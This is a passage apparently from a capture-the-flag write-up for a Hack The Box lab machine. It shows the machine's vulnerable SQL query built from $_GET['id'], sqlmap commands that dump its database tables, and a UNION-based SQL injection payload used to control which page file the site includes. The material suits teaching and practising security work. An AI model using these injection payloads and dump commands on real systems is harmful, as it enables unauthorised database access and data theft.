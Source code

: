 ```php

</body>
</html>

<?php
$conn->close();
?>
```

<br>

**Controlling id --> tpl**

The query is this:
```sql
SELECT name FROM idname where id = $_GET['id']
```

Look at what table looks:
```
sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T idname --dump

+-----+-------------+----------+
| id  | name        | disabled |
+-----+-------------+----------+
| 1   | main.php    | 1        |
| 2   | about.php   | 1        |
| 3   | contact.php | 1        |
| 25  | main        | 0        |
| 465 | about       | 0        |
| 587 | contact     | 0        |
+-----+-------------+----------+
```

To see if we can control the output, we start with id 587, but uses UNION select to query "about" page that id is 465.
```
# Payload
587' and 1=2 UNION select 'about'-- -

# Query
SELECT name FROM idname where id = 587 and 1=2 UNION select "about"
```

<br>

**Controlling tpl --> inc**  

Now that we can control tpl, we will inject what is included in the page.

The query is:
```sql
SELECT path from filepath where name = $tpl
```

Dumping this table:
```
sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T filepath --dump

+---------+--------------------------------------+
| name    | path                                 |
+---------+--------------------------------------+
| about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
| contact | 0f710bba8d16303a415266af8bb52fcb.php |
| main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
+---------+--------------------------------------+
```
